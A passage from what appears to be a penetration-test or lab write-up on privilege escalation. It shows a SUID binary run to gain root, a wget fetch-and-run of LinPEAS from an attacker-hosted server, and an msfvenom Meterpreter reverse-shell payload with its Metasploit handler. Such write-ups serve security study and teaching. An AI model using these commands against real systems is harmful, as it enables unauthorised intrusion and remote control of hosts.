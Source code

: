 The `.shelf` file had the SUID bit set, indicating it runs with root privileges when executed.

#### 6.1.2 **SUID Binary Analysis**

Executing the `.shelf` binary:

```bash
www-data@target:~$ cd /home/defender/Downloads/
www-data@target:/home/defender/Downloads$ ./.shelf
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

The output confirmed that the binary was running with elevated privileges (EUID=0).

### 6.2 **Privilege Escalation with LinPEAS**

#### 6.2.1 **LinPEAS Upload and Execution**

A Python HTTP server was started on the attacking machine to host LinPEAS:

```bash
# On attacker machine
python3 -m http.server
```

LinPEAS was downloaded and executed on the target:

```bash
# On target machine
www-data@target:/tmp$ wget http://192.168.74.135:8000/LinPEAS.sh
www-data@target:/tmp$ chmod +x LinPEAS.sh
www-data@target:/tmp$ ./LinPEAS.sh
```

LinPEAS confirmed the SUID permission on the `.shelf` file and identified additional privilege escalation vectors.

### 6.3 **Advanced Exploitation with Metasploit**

#### 6.3.1 **Meterpreter Payload Creation**

A Meterpreter payload was created to establish a more robust connection:

```bash
# On attacker machine
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.74.135 LPORT=6666 -f elf -o met.elf
```

#### 6.3.2 **Metasploit Handler Configuration**

```bash
msfconsole -q
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp
set LHOST 192.168.74.135
set LPORT 6666
run
```
